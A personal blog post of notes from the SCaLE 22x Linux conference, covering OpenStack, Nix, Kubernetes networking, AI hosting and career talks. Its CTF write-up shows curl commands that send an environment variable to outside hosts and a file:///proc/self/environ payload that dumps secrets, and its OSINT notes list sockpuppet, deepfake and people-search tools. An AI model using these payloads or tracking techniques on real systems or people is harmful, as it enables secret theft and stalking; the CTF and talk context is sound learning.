SCaLE 22x: All 4 days
Scale 22
This is my second time going to the so cal linux expo, AKA SCaLE. It’s very exciting, and this time I will take notes of the things I see.
The big things I am excited for is:
- Nix (PlanetNix)
- Kubernetes (Cloud Native Days and DevopsDaysLA)
- There used to be Kubecon but not this year, instead it’s Cloud Native Days.
- Openstack (Openinfra days is here, they weren’t here last time)
- Friends! (I met many people from LA and near Pasadena, and I am excited to see them here as well)
OpenInfra Days
I went to the first meeting, and was immediately introduced to an interesting software — genestack. Unlike openstack helm, it doesn’t seem to require rook ceph, despite being a kubernetes deployment, which makes it very appealing. Currently, I am attempting to deploy Openstack on my single Kubernetes server, using FluxCD and Openstack-helm, but I am encountering a blockage because ceph doesn’t like being deployed on a single node.
Kubernetes as a Geographically Distributed System
https://www.socallinuxexpo.org/scale/22x/presentations/kubernetes-geographically-distributed-system
This presentation is about StarlingX, which is noted below. It’s a very interesting piece of software.
StarlingX:
- Started 7 years ago
- Built for “edge computing”
- All of the system services and components are deployed in containers
- Sees heavy use in the telecommunications sectors
More discussion of Kata-Containers, it seems that they use it for security at the edge. It can also be used for multi-tenancy.
Deployment models:
- One/two server models
- Ceph for storage, can use ceph on one node deployments
- Can use external ceph for larger deployments
- Control, storage, and worker nodes
- AIO (all in one) simplex:
- No high availability or redundancy
- AIO Duplex: Two nodes, so if one fails the setup stays up
- Standard: Two controller nodes (with storage) and then a worker/compute node
- Some nodes can be used as storage nodes regardless
Distributed Cloud:
- INtroduced in 3.0
- Hetegenerous kubernetes/openstack environment
- Central cloud, a controller cloud
- Horizon dashboard, docker registry, keystone
- Remote, geographically dispered edge clouds
- They are semi-autonomous, meaning they work without network
- Distributed control plane
Resiliencey/Geo redundancy
- If a natural disaster/etc happens, the system doesn’t go down
- If one cluster goes down, the system stays up
Management:
- Tools to configure pxeboot, lifecycle, health and sensors
- Monitoring of stuff
- BMC/IPMI management things
- Service management, configures high availability profiles
- Auto update software, and/or add more functionality
- Rolling updates
StarlingX is used heavily in the Telecom segments:
- They require 5 9’s of uptime. They require less than 5 minutes of downtime for a whole YEAR of uptime.
New things in 10.0:
- Ipv4/v6 dual stack
- Kata containers support
- Managing up to 5,000 sites per system controler
- Unified software management
- Switch between standard and/or low latency kernel at runtime
- Low latency sounds cool but has higher resource usage and resource needs. Presenter suggests sticking with standards unless you require specific things.
Telecom deployment things:
- StarlingX is used in 5G deployments?!
- “Highly Utilized”
- Small footprint.
- Precision time protocol
Smallest deployment needs 1 cpu core.
Interesting software/product list:
- Genestack — Openstack on/alongside K8s.
- Zconverter — Migrations of Vmware to Openstack
- Kata-containers — Container runtime that uses a virtual machine for more security/isolation
- Similar project mentioned: Confidential containers
- StarlingX
- Linux, Debian, Kubernetes, Openstack (on kubernetes), seems to be a Linux distro, they offer an ISO.
- “Enhanced Networking” — ipv6, dual stack support, now available
- vJailbreak — automatic migrations from vmware to openstack.
- Doesn’t appear to be live, minimal downtime
- Free educational/research clouds:
PlanetNix
According to the Flox intro presenter, there is a blog about getting Nix to run on Windows.
Tvix / Replit
Replit used to use nix, and then they switched to the tvix implementation of the nix daemon. Unlike Nix, it uses a content addressable store, leading to massive storage savings when deduplication. They compressed their database from 6 terabytes to 1.2 terabytes. Incremental updates don’t take as much space, and it’s much cehaper overall.

Eelco Dostra’s Configurable flakes:
https://determinate.systems/posts/flake-schemas/
Flakes don’t support passing of command line arguments, Eelco has a solution. This solution maintains benefits of nix, like hermeticity, caching, and discoverability.
Interesting software/product list:
- Flox — Flox uses nix packages, but aims to be a more user friendly abstraction layer
- NativeLink/local-remote-execution
- Somewhere in here is code that converts a nix shell/env from a flake to a docker container
- Tvix, an alternate implementation of the nix store
- https://github.com/krei-systems/vix a wrapper for the Nix command line interface
Embedded Programming Workshop
I saw an embedded programming workshop, running during lunch when the Openstack stuff and Nix stuff was put on holds.
Firstly, I got a free board! One of these. It doesn’t run an operating system, so the presenter referred to it as “bare metal C”
Tools needed: gcc stlink stlink-gui stlink-tool stm32loader stm32flash * Eclipse, C extension, STM extension which can be found here
Setup: Chown the /dev/ttyACM0 to be owned by your user.
Compilation: gcc something
Misc Notes
- Text files are different between all three operating systems because Microsoft, Linux, and Apple decided to store the end of line/newline character as either a carriage return, line feed, or both. This was due to an earlier device which needed to use both a carriage return and a line feed in order to avoid physical issues with ink smudging.
- uart library is used for C programming with embedded devices.
- Polling is needed since device can be sent to the serial faster than it can be worked with
- Polling is a simple algorithm: Ask if device is ready, then send character (or do the thing)
- Mostly a waste of time, but is very simple
- Interrupt: Alternative, more efficient than polling
- a signal that “interrupts” the
- Device raises interrupt line, CPU halts normal flow and calls interrupt function, which is an actual function
- ARM devices save state of machine before interrupt function, which means you don’t have to do it manually
- USART2_IRQHandler: interrupt function
I had to leave early, but the author of this talk, Steve Oualline, seems very interesting. He has a book published by no starch press, Bare Metal C, which is about embedded C programming.
He also has some free books and other resources on his website.
Here’s the device I received, the STM32:

SunSecCon
OSINT for Cybersecurity and Hackers
This is another presentation, done by [REDACTED], and ███ █████████. Given the topic at hand, and the way that [REDACTED] mentioned trying to scrub her name from the internet, I thought it would be appropriate to redact the presenters’ names. They are easy to find though, consider it an introduction into the world of OSINT.
Both presenters are red team, [REDACTED] is the “people side” and ███ is the “tech side”. [REDACTED] views it as not just a set of steps, but a thought process.
Search Engines:
- Different search engines give different results (what’s dogpile?)
- Different browsers give different results
- Different… internet connections?
- Search engines can index content that is supposed to be walled and even make it accessible’
- Search yourself! Forwards, backwards, etc.
- 4 or 5 different ways to write phone numbers. International means even more methods. Search every kind in order to get lucky.
- Email addresses. What if targets use the same username across email addresses and platforms
- Usernames: Divide up, mix around
- Dates: Can also be written in a million different ways
- United States is the only country to put the month first (lmao)
Sockpuppets:
- Called “identities” in the investigation world
- datafakegenerator.com, fake name generator, platforms to help creation of sockpuppet accounts
- Select mildly popular real name.
- ███: Select names that were popular for a generation and manipulate your accounts to look older/younger
- Sometimes government agency members aren’t permitted to create a sockpuppet account with a real person’s name. A way around this is via other usernames.
- Do not use a real person’s image, it’s tracable, especially if the image is from a public source
- https://ThisPersonDoesNotExist.com, https://Generated.Photos/Human-Generator, SnapChat, ChatGPT/AI image generators. https://huggingface.co/black-forest-labs (flux I think?). Other Stable Diffusion, Hugging Face models.
- https://www.synthesia.io/tools/talking-head-video-maker — Generates talking vidoes of your head or another person’s head.
- Burner app. Other deepfakes
- Same the screenshot to a thumbdrive, named as something simple, to ensure no computer metadata is traced
Staying Private/Anonymous:
- Virtual machines
- ███: Build a virtual machine dedicated to a specific task. Change the background to something with a ton of identifying info, so you know who “this person” is.
- ███: Make a virtual machine to play with AI. GPT4ALL. Airgapped AI can be used in locked down environments.
- ███: I have a VM just for taxes.
- Private Browser: Private browser doesn’t cache anything. Not always malicious stuff, sometimes it’s just porn lmao.
- Tails! Made by Tor, portable, amnesiac operating system that keeps the user anonymous. Can be put on a thumbdrive.
- VPN, needed on every device.
- [REDACTED] uses HidemyAss, because of 270 given locations. Lets her pretend to be from other locations. Also lets her get into geolocked/blocked resources.
- ███ has a similar usecase, pretend to be from a usecase while searching for companies and organizations.
- Virtual credit cards: Privacy.com
- Phone numbers
- Gmail: Free google voice, which can be used to get burner numbers.
- “Burner App” — turns your phone into a burner phone
- Iphones have an update where you can record calls — but only legal in one party states.
- https://callhippo.com/international-phone-number/ — International VOIP phone number
- “Call Voice Changer — IntCall” — Voice Changer, [REDACTED] needed one to sound like a man.
Security Advice:
- “Don’t click” — Open a browser and log into the account instead.
Finding People:
- Facial Recognition
- https://pimeyes.com — 30 USD / Month
- Facecheck.ID — This one will find images that match but are blurry. Only accepts payment via crypto.
- Yandex, Russian Search engine, does an excellent job of object recognition
- Phone numbers
- https://spydialer.com : US based site that lets you call someone’s number, but it will show someone else’s number, and it will get the voicemail message.
- User info lookup
- https://www.melissa.com/ — Site designed to clean personal data… but can also be used to find personal information.
- Cheaper to search in the first month of usage. Gives many credits for free as a sign up bonus.
- Global Lookups are very useful.
- https://FastPeopleSearch.com — [REDACTED]’s favorite one. Free.
- https://TruePeopleSearch.com — Similar to above, perhaps owned by the same company. [REDACTED] says it didn’t give her as much.
- https://www.melissa.com/ — Site designed to clean personal data… but can also be used to find personal information.
- Google Earth:
- ███ likes Google Earth. Story: Hiker gets lost, and then he sends images of where he is. Then some guy who has mastered the art of figuring out where movies are shot, and then uses Google Earth to figure out exactly where the hiker got lost.
- Tweetdeck
- Now requires X (formerly known as twitter) pro, can search a ton of old tweets.
- Let’s you follow someone without following them. Sometimes younger people think that @ ’ing people is private.
- Can “archive” deleted tweets.
- Can do advanced search, filter by location, use booleans, etc. Can also search by emoji.
- Google alerts:
- Weekly report of new stuff that would come up in a google alert
Finding Devices:
- https://shodan.io — Search engine for the entire internet
- I prefer zoomeye because they give more free stuff.
- Nmap, OpenVAS, etc.
Dark Web Indexes/Search Engines:
- Dark Blue Intelligence — Dark web scraper that you can search
- Can get a demo as long as you’re with a company
- Dark Owl, less user friendly than above though
- https://www.skopenow.com/
- Scrapes everything, including the dark web.
- Will give a 7 day trial if you tell them you were in [REDACTED]’s OSINT training.
AI:
- “Write this better”
- AI hallucinates, so [REDACTED] must verify that it’s output is accurate.
- Deepfakes are concerning. There was a zoom call, with 6 “people” who where deepfakes and scammers managed to get half a million dollars from a Hong Kong company.
Cloud Native Con
Kubernetes and the Dragons in Linux Kernel vs. Userspace Tools
“Computers, operating systems, networks are a hot mess. They’re barely manageable, even if you know a decent amount about what you’re doing. Nine out of ten software engineers agree: it’s a miracle anything works at all.”
https://fasterthanli.me/articles/i-want-off-mr-golangs-wild-ride
Kernel abstractions:
- Kernel abstracts hardware
- Netfilter which has iptables or nftables on it
- Kernel has modules, that can be compiled into or not out of the kernel
Userspace tooling configures kernel level things:
- Iptables tool command line tool can configure nftables or iptables which configure netfilter
- Sometimes this causes issues
Kubernetes system components must cross the background into kernelspace:
- CNI’s may need to manage iptables rules
- GPUs, CSIs, Meshes
Iptables
- Used by many kubernetes components: kuber-proxy, CNI’s, NPC’s
- Pre-container era tool, designed so that there is only one iptables setup on the system
- The command line tool can configure the legacy iptables, or nftables
- Every component must use either iptables or nftables, otherwise networking will break.
- K8s community has wrappers that detect the mode. Not bulletproof, though, but usually works
Iptables Rules
- Read ALL rules, do changes, and then write them back
- No pratcile way to manage individual rules
Iptables versions
- Rules are stored and executed on kernel level
- But the host and containers can have different versions
- Different versions can interpret the rules differently
- v1.8.7 seems to lack the marking feature, meaning it could bug iptables by a later version into dropping ALL packets rather than just marked ones
- Presenter had so much fun debugging that one
“I have not seen any attempts at keepign the in kernel ruleset compatible to older versions of iptables-nft” — Phil Sutter (kernel netfilter dev).
- Basically they don’t treat the above issue as a bug. Lmao.
- Presenter defends this, arguing that it makes sense because it’s a pre-container tool, and is not designed to handle multiple instances of it running on your system
Iptables must be the same version everywhere:
- Hosts, kube-proxy, CNI, mesh
- So this must be why using a firewall with kubernetes is not recommended. It’s unlike a stable release distro will have a firewall that uses the same version of iptables
- Can you really pin all the versions?
- k0s began to pin, and vendor iptables into the k0s binary itself.
- Cannot override host operating system, but they try
Moving away from iptables:
- Legacy iptables is getting less popular, because of read-all, write all setup
- Still default in some spots, like kube-proxy
- Nftables and eBPF on the rise
- Nftables lets you modify a single rule alone
Ipset:
- Efficient management of sets of addresses
- Quick lookups for iptables rules
- Stored “in kernel” as hashes, bitmaps, etc
- Also a pre-containers era tool
Ipsets can be managed by multiple components (again):
- 6.2 kernel added a new “bitmask” parameter, which older ipset versions cannot cope with
- Now the ipset version matters, but also the kernel version
- Version must be pinned across networking pieces: kube-proxy, CNI’s, mesh, NCP, etc
- k0s can pin all the kubernetes images. But it cannot pin the host.
- Mismatch can cause via OS packages or kernel version updating
Modprobe:
- Userspace tool to load/unload kernel modules
- Handles depenencies
- Pre containers era tool
Kernel modules:
- Compiled as a “.ko”, kernel object
- Distributed as compressed, and modprobe decompresses when unloading
- Can be compressed via multiple algorithms
- The modprobe in a container might not always support the compression algo used on the host. Debian 12 kmod supports ZSTD and XZ, but what if host uses GZ, and the container is Debian 12? Then kernel module loading in the container will fail
- CNIs, CSIs, etc, might need to load modules, so they mount /lib, /sys, etc
- CNI might need contracts, CSI might need filesystem, GPU stuff, etc
- Usually not relevant though
- Audience member: “Are there CNI’s which load modules? Sounds scary?”
Debugging:
- Iptables case caused ALL networking to go down — no ssh access to machine
- Very unfamilier errors
- Super low level stuff
How presenter debugged:
- They ran k0s in containers, since all their testing was based on this
- Read kernel code… a lot of it.
- They could docker exec, even if the networking goes down
- Trial and error to discover issue
Fixes:
- No easy fix
- k0s pins versions of kubernetes components
- Test EVERYTHING before rolling out to prod
DevopsDayLA
So apparently, DevopsDay LA has a regular meetup, every two months, on Thursday in Santa Monica.

This is funny, but it should be noted that DevOps as a career has many remote jobs, which is what this may be referencing.
Interesting software/products:
- https://runme.dev — Interactive markdown notebooks for devops
Scale Presentations
A simpler and faster firewall with bpfilter
https://www.socallinuxexpo.org/scale/22x/presentations/simpler-and-faster-firewall-bpfilter
https://naccy.de/2024/10/01/bpfilter-status-report.html — blog post by the presenter from last eyar
Linux Firewalls:
- Iptables: Rules are shaped as C structures
- See my notes on the problems with iptables from the other talk “Kubernetes and the Dragons in Linux Kernel vs. Userspace Tools”
- Not very performant, after 512 rules, performance goes down immensely
- Nftables: Performance drops off after 128 rules, before iptables does
- BPF: Much more performant, can also do things like calling a program along with the packet.
- You must write C code, that works for a specific version of an unstable API
- Faster than iptables or nftables
- BPFilter firewall
- performance drops off at 1024
You can make the firewalls faster using “sets”
- No performance dropoff after a certain amount of rulesets
- Works on nftables and bpfilter
Audience member: Have you done a comparison between bpfilter and “nftables offload” where it runs on the NIC itself? But bpfilter seems to also be able to offload.
3 main components:
- bfcli, libbpfilter, bpfilter
- Much more usable cli
Chain architecture:
- Chain is similar to a chain in iptables or a table in nftables
- In the chain there are rules, and the rules have an action
- Can decide to do normal firewall things, like drop packets
Bytecode Factory:
- Bpfilter creates BPF programs
- Similar to event driven programming
- Runtime context of the program disappears when it returns, so you have to make “maps to save data”
- All the bytecode runs in the kernelspace
- BPF verifier will check that BPF code is valid
Demo:
- He runs iptables-legacy and then adjusts some rules
- Then uses bpfilter to change some rules and drop some backets
- The bpfilters daemon can be “closed”, and then it will stop accepting connections. However, the program is still running.
- He shows the bpfilter config setup. It’s… okay. But it’s simialr in complexity (and power), as iptables. For usage by a homelabber or other inexperienced user it would need to be abstracted by another layer like how firewalld and ufw abstract ip/nftables.
- Bpfilter also have sets, he shows us a set of ip’s in the config file
BPFilter roadmap: https://github.com/orgs/facebook/projects/50
RPM package available in fedora. But the presenter reccommends building it yourself.
Questions (more like answers):
- I am not satisfied with the answer to my question: What if there are multiple bpclients on the system configuring a single bpfilter daemon
- But it seems to be better architectured and dodges some of the issues
- It can be used alongside nftables for features that it lacks
Affording your AI chatbot friends
https://www.socallinuxexpo.org/scale/22x/presentations/affording-your-ai-chatbot-friends
What if your boss insists that you need AI?
- But what does AI mean?
- What even are you supposed to deploy?
- Buy or build? Moving parts? What infra? What is an “AI agent”? Is this expensive?…
AI agent:
- Model that has access to tools, e.g escalating tickets, running sql queries, or
- Think square peg, round hole?
Moving parts of AI:
- Models: Big balls of floating point numbers that take input, turn tokens into embeddedings, do CUDA magic, and then spit out more tokens
- Try llama models to start. Deepseek, or OpenAI
- Inference engine: Thing that runs the models
- llama.cpp, or the python things
- This is the part that needs the GPU to run, the pricy part
- Your code:
- Sits in the middle, wraps
- Most diverse and opinionated
- UI
- sparkly part
“Excessive acronym compliance” lmao
Model provider methods:
- Relying on OpenAI means you rely on them to keep your business afloat.
- Most providers sell at a loss to get adoption
- They have replaced snapshots off models with differenent models. Xe had an issue where a new snapshot of chatgpt turned their chatbot fro happy to depressed
:(. - Deprecations become emergency.
- Self hosting
- Big models are truly massive. “Big data is bigger than most people’s laptop ram”.
- You own the stack, and can choose models or the deprecation schedule.
- A lot more freedom and control
- No data is sent to third parties. “This can be very important in acronym compliance”.
Downsides to self hosting:
- Nvidia drivers…
:(. “They will never fall over work hours”.- Can be worked around with reduancy, but there are tradeoffs.
- You have to choose the models. Choice paralysis.
- Must be opinionated about ollama vs llama.cpp or the other options.
- Must do research and develop opinions, which costs time.
- You need GPU’s by Nvidia.
- “I can’t stop you from hurting yourself” — when referring to AMD or apple silicon options
- Nvidia GPU’s are the easiest, but extremely pricy, and also have a big wait time.
- Service life of one to three years.
Middle path, Nomadic Compute:
- “Nomadic Compute” — new buzzword by Xe Iaso
- Cheating by your setup hunting down the best deal from providers.
- All cloud providers have GPU’s. Xe said they saw small clouds on lowendbox advertising GPU setups.
- GPU’s you only need model year, video memory, and memory bandwidth. Nothing else matters.
- Older cards can be used for AI workflows, but the price per hour goes down.
Skypilot:
- Abstraction layer for infrastructure as a service
- Give it a bunch of API keys
- It will figure out the best deal and then switch
- It will also autoscale up and down
Advice:
- Build on top of boring tools. Don’t waste your “innovation budget”.
- E.g. Postgres. Object storage. Wireguard in userspace.
- Treat it like a database.
- Scale things down when not in use, in order to save money.
- Cheat by putting your model weights directly into the docker image.
- If the image contains the weights, many platforms won’t charge you for the pull time
- Wireguard can be ran in userspace, which is useful for joining machines to eachothers network.
Xe started wanting to self host everything, but reality got in the way.
Example Project, Mimi, an AI chatbot that gets images from discord:
- Used to be entirely self hosted across 3 nodes
- Homelab server has 12 GB of vram
- Meta releases llama3, which requires 48 GB of vram.
- But now runs on a cloud architecture
- 5 dollars (canadia money?) per month for Mimi’s cloud features
- Filter model still runs on self hosted.
“It’s okay to use the cloud, just have an exit strategy”
https://opensource.org/ai/open-weights
https://fal.ai/ — Flux image generator as a service, where you pay per image. Much cheaper than running Flux locally, but is not a locked in setup.
Every input matters:
- Claude gets lazy around august, Chatgpt gets really bad around december. Dates of chat have an effect on the LLM output.
- The seed value can be set so that it’s deterministic
- “seed 3407 is all your need”
- Set the temperature (randomness of output) as low as possible when trying to do something deterministic.
- If an app doesn’t need an input, don’t give it to an LLM.
Filter models:
- Sits in the middle of the AI flow, and checks the user input to ensure it is safe.
- Also can sanitize
- Prevents
- Two most popular are: llamaguard (Xe stated llamaguard3-8b is good despite being small, because it is finetuned) from facebook, and shieldguard from google.
- One time Mimi decided that everything was “Election Interference”
Quantization: lossy compression to make the AI models smaller. The loss is minimal, but neglible.
Relevant Blogpost: https://www.tigrisdata.com/blog/ai-chatbot-friends/
Open Source Career Day
Using Certification to Prove Home Lab Skills
https://www.socallinuxexpo.org/scale/22x/presentations/using-certification-prove-home-lab-skills
Certificate vs Professional Certification:
- Certificate is just course + test
- Graduate schools, MOOC’s, product academies
- Indicates completion
- May be from low stakes quizzes and training
- Some of them are fantastic! Like Coursera’s CS50. But many are just trash, since they only require video + quiz.
- Sometimes certificates are masked as certifications, even by a companies. Some certificates are just a piece of paper proving that you have a product. Sometimes they try to make you the product.
- Certification
- Proves a level of competency
- High stakes quizzes. Things like final exams of schools, a lengthy, proctored exam.
- Presenter thinks proctoring is a problem, and is not enjoyable to do.
- High stakes is challenging and difficult to do.
- The second assumes you know what you are doing when you show up.
- By industry leaders or nonprofits. E.g: Linux foundation. Nonprofits are more credible and vendor neutral.
- How to tell it’s actually a certification:
- Do they publicize their methodology? How did they decide this is what to teach and test?
- Because their are many ways to do things, certifications exams will actually make sure they account for every method possible to solve the problem. Simply expecting a specific command can exclude experts who do things a different way.
- Industry leaders who make their own technologies will have an understanding of what is needed. Household names, rather than everybody who has a product
Presenter’s analysis of Certifications:
- Performance based or Multiple course question (MCQ)? MCQ can be good, but…
- How were they made? Subject matter expert involvement? Occupational focus?
- High stakes vs low stakes? (Proctoring? Coverage?)
- Do they keep up with industry changes?
- One exam the presenter did hadn’t changed in 15 years…
- Good exams require renewals every few years, or continuing education.
- But make sure that the content is updated, rather than a subscription to keep the certificate…
- Community and industry reception?
- Comptia: Historically nonprofit, but recently gone private.
- Reddit, etc may be opinonated and like
- Sometimes the recruiting department has only heard of one cert, but the hiring manager might have heard of more.
- “That was boring” vs “That was kinda fun!”
- Look at prep materials to make sure stuff is good.
- Harder, more realistic questions are better.
- If it’s a product based focus, then potentially, you are the product
- “Wanna be a Joe No Name’s Database expert? Occupation? Idk, Data?”
Presenter:
- Ran a yoga studio… and her own DNS and webserver
- Doing this since 1990s
- Has a comparative literature degree, so she must prove that she is technically skilled
- Says that a bachelors is not always needed.
- Canonical asks about high school GPA… this is very controversial.
Job searching:
- You must know what the
- “I just see a smattering of skills which may or may not be related”
- “Job Skills Validation”, and “Job Task Analysis” (JTA)
- JTA = Job Task Inventory, and a cert
- Different companies mean different things when they mention a role
- If you want “Devops”, don’t apply to every singel job
- Select a target, a “dream job”, and then cross reference the skillsets
- “Criticality”: Importance, Frequency, then questions get asked about various skills
- How many jobs want a specific tool, or just “something”. E.g: I just want playbooks, or SDLC, or CI/CD, or etc.
- Advanced level occupations are frequently less technical. Skills like management, communication, leadership, getting things done when no one else is, are unique.
Q and A:
- One commenter suggests looking at Georgia Tech’s masters program, very cheap and Georgia tech is prestigious
- Up and coming opportunity is revitalizing tech for the federal government…
- How to I pick stuff that lasts the test of time (that are relevant to the industry?):
- “I reject the question”
- You don’t. Software change.
- Conceptual understanding and transfer, but presenter says that it was dumb luck
- You might be an expert was something that ceased to exist 5 years ago, but on the other end, cobol programmers are still needed.
- How can AI help/ AI certs?
- Most of the AI certs are product driven
- Cloud providers have interesting certs, make sure it’s occupation focused stuff
- Book recommendation, by someone named Martin Yate.
- Start with the resume book
- One person suggests that we are going about to do
- Any specific cert recommendations:
- Depends on your industry:
- With cloud it gets tricky, because you have to “declare industry” to one cloud provider or another.
- Target job practice Pick what you want in advancetarget, and then go in that direction.
- Skils that I can market and then I can do ajob in.
- Devops has some very good online trainings, MOOCS are sometimes varied`
- Comptia varies in quality
Presenter suggests that we subscribed to a number of sources that inform her on where the industry is and is going.
After presentation notes:
- Canonical ubuntu essentials cert, covers ubuntu basics. They don’t have microcloud/microk8s/sunbeam certs yet but plan to in 2027
- This potentially sets up a career path working with Ubuntu, similar to the way Red Hat has certificates for working with all Red Hat software, in addition to Red Hat Enterprise Linux
- “You only need 1 job” apply to fewer jobs rather than more
- security jobs: memorize owasp 10, do the b-side ctf and put on resume.
- Comptia A+ is not worth anything, sec+ does have some value though
- Focus on the skill. Why does the person you are talking to care?
- “You’re not telling someone what you can do, you’re selling someone what you can do for them”
- Search jobs and check what’s hot to keep up with the landscape
- Job titles to look into: cloud afmin, cloud architecture
- Health or fintech are always behind. Startups are always using future software
Scale Next Generation
They had a great deal of stuff set up for the next generation of Linux users, middle and high schoolers. I thought it was really cool, and since I like teaching, one of the organizers suggested that I hit them up and volunteer
They had multiple machines with the microbits, $20 little pi-like devices that can run python, for teaching python programming.

They also had an array of books on Linux and software things:

It was pretty neat.
Misc Notes from people I meet
This is going to be a very unorganized section, containing a variety of little snippets from people I meet.
Nix can become nigthmarish to update on Mac OS, due to the system level changes that Mac makes: https://zenn.dev/kawarimidoll/scraps/3d71b16d1bb7e3.
Best large language model for coding: qwen2.5-32b-instruct. “On par with gpt-02-mini”.
A backend developer would be expected to deploy things and debug containers in kubernetes, or at least understand how their application will run in a k8s environment. Don’t have to be experts. For backend, frontend, not really.
mailu helm/docker based email deployment.
To get an ASN, you can simply create a company and then apply for it, but the organization responsible for giving them out has ran out of them.
Apparently, infinite recursion can occur as an error in Nix.
CubeFS is a good alternative to ceph or longhorn for a Kubernetes distribution filesystem.
Github class is good for teaching with an environment, but it is getting more bugs and is collapsing.
National Science Foundation, has Research Experiences for Undergraduates (REU). According to someone, they also offer money for various other research initiatives.
Jean Kims book, phoenix project. Recommended to me when I talked about DevOps philosophy.
Ditherit.com
https://www.recurse.com
Take a break during jobs
Linbit, open source block storage
Hackathons sometimes involve shark tank style pitches.
ID tech teaching platform
Georgia Tech Research Institute is always hiring.
Oracle Linux has a one/two click VM that runs: https://xeiaso.net/notes/2025/k8s-dev-mac-oracle-linux/
Onepassword has a nice kubernetes operator.
Git forges are especially vulnerable to AI scrapers, since they have so many links and commit history saved. Xe Iaso’s proof of work captcha led to a 90% reduction on Gnome’s gitlab. If you return http 200 and at least 4 kilobytes of html, scrapers will give up. https://xeiaso.net/blog/2025/anubis/
Open Compute project.
https://en.wikipedia.org/wiki/TLA%2B
https://stardustxr.org creator reccs quest 3 becuase hand tracking and stuff
Alyx lynd feline learn to solder board
Nixos containers are the same thing, or very similar to solaris zones.
https://github.com/MrMEEE/bumblebee-Old-and-abbandoned/issues/123 — Lmao.
To lean linux kernel networking, listen to good talks or on youtube.
Software’s for networking testing and engineering: Packettracer, eve ng alternative, gns3 latter two are emukated, cisco packet tracer is a “simulator”.
b4 to automate kernel mailing list tasks.
Flyaway kit https://www.kranzetech.com/di-fak/ . “May or may not be used for mobile threat hunting”
Rocky mountain cyber, conference full of industry experts.
Liquid, by makers of pci, allows for composable pci architecture
Ampere yolo for computer vision
Job Board
There is a literal job baord at SCaLE, a literal whiteboard where companies mention they are hiring or people state that they are looking for a job.



Someone also transcribed it to a google sheets.
They also put the job board on imgur.
Exhibition Hall
There was some fun stuff in the exhibition hall.
There was a bunch of this new Arm system76 desktop, which they displayed at their booth:

But it was also at the Arm booth:

And the Nixos booth (they were using it as a build server/cache on Thursday/Friday in the other conference building and today)

And the Alma Linux booth also had one of these devices:

I learned at that booth that apparently, Ovirt is being built and tested against Alma Linux now.
There was other Arm stuff, like this Mac Mini running Arm and Asahi Linux, where they were installing games from steam during the exhibition hall. This was from the Meta/Facebook table.

I learned at the Sofware Freedomm Conservancy booth that they sponsored the event, and all of the routers in the event run the fully free software openwrt operating system.


WRCCDC had a booth as well:

A really interesting booth was the Mentors in Tech (MINT) booth.

They run a mentorship program for students, designed for getting them into the industry.
Meetups I just learned about (Or haven’t gone to yet):
- Datacon LA, a 1 day conference in la
- https://issasocal.org
- Information systems security association
- Semi-regular meetups in LA
- Owasp
- Last wednesday of every month
- Can RSVP on Linkedin
- Information technology disaster resource center
- They volunteer to set up IT infrastructure in disaster areas that need it
- https://www.itdrc.org/
- Require some trainings, and offer some free trainings on what is needed to do the job
Interesting software/products/stuff:
- https://coder.com
- Self hosted deployment of online code workspaces
- They also seem to offer kasmvnc or rdp, in addition to vscode web version
- FastX
- Virtual Desktop Infrastructure offering Linux machines
- educational licenses are cheaper, apparently all of cal state had a license
- <lpi.org/clubs> — The Linux professional Institute has notes on
- Ieee acm curriculum for bachelors in computer science or comp engineering, but don’t say what software or hardware, so you can pick
- https://www.codeday.org/
- Computing talent initiative, sign people up for this
CTF
The CTF is the Pacific Hackers CTF. I might to a mini writeup here.
First, I try artist, the webdev program. It’s url is at https://artist.ctf.pacifichackers.com I downloaded the source code they provided and saw this in the fake dockerfile:
ENV FLAG="FAKE_FLAG{FOR_TESTING}"The code doesn’t have the real flag. But based on this, I am guessing that the real flag is an environment variable injected into the docker container from however they are running it.
In the flask code, it runs curl to get the background:
try:
result = subprocess.run(
['curl', '-s', '-L', background],
capture_output=True,
shell=False
)This is ultra sus. Also, I feel like setting the background of a simple drawing app shouldn’t require or interact with the backdend.
We need to make a command that uploads or publishes the environment variable. However, shell=False means we can’t use “&&” or any bash-isms to get more commands.
[moonpie@osiris ~]$ curl -sL -F
curl: option -F: requires parameter
curl: try 'curl --help' for more informationInteresing. We can do -F, which uploads along with the thing.
So if we do something like this: -F "file=@-" https://0x0.st <<< "$FLAG" and then it should upload our flag to 0x0.st.
Pastebin. Doesn’t seem to work. I threw up my own http server on my server. Maybe something like this? :
curl -d "key1=value1&key2=${ENV_VARIABLE}" http://example.comThis fails since python http server doesn’t accept post. So I have gpt throw together something that does:
from http.server import HTTPServer, BaseHTTPRequestHandler
class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
def do_POST(self):
content_length = int(self.headers['Content-Length'])
post_data = self.rfile.read(content_length).decode('utf-8')
print(f"Received data: {post_data}")
self.send_response(200)
self.end_headers()
self.wfile.write(b"Data received successfully")
httpd = HTTPServer(('localhost', 8000), SimpleHTTPRequestHandler)
print("Server running on http://localhost:8000")
httpd.serve_forever()And then I run this. curl -X POST -d "Hello, server!" http://localhost:8000 to send stuff.
I still can’t exploit the flask logic, however. Also, I don’t know how to do a shell variable replacement from here. I think this is too complex. It seems that the logic returns a base64 encoded version of whatever the output is, so I’ll just attempt to get curl to print the environment variable.
curl -w "Username: $TEST\n" http://example.com
Whoops, there is an easier way to do this, given to me by a friend:
file:///proc/self/environ
Just have that as the parameter, and then it outputs a base64 of all of the envirnoment variables.
According to a friend, it’s not possible to inject flags the way that they have used the python subprocess module, since they have each flag as a comma seperated arguement. However, he did claim it is possible in other, less secure setups.
There is also a really interesting set of challenges, the bashcrawl challenges, which are used to teach linux.
Loot!
I got a lot. There are so many exhibitors here giving things out, so I made sure to take advantage.
I will do a detailed sorting and breakdown of what I got later.
So here is the breakdown. Firstly, are the things I bought.

From the Debian booth, I bought two small SBC’s. And then from the Nixos booth I bought a cool necklace.
Then I went to many of the booths, and got so much cool stuff. From rackspace I got a nice boogie baord. And then from coder I got a hand skateboard and a fidget cube.
Flox gave everybody 3d printed fidget keycap cases to press. WRCCDC/Coastline college gave people
And then the foldable fidget cube on the left, is from PureStorage


I also managed to get a mousepad from CodeDay/Mentors in Tech.

And of course, physical versions of the SELinux coling book and the Container Commandos coloring book. I’ve seen the former on the internet before, but not the latter, but it seems to be cool, and goes over Red Hat’s OCI products.

I got mugs from Arm and Fedora. I think that Mugs weren’t something they were universally giving out, I think you had to be liked by the people working the booths.

I also got a guitar pick, from the Network Time Foundation. According to them, the guitar pick is custom made, and happens to be the perfect size for shucking hard disks without damaging the disk.
Food Blog
People keep telling me I should start one. So here’s a mini food blog.
Day 1:s
So the first day, the first place I went to, for lunch, was Art Lunch
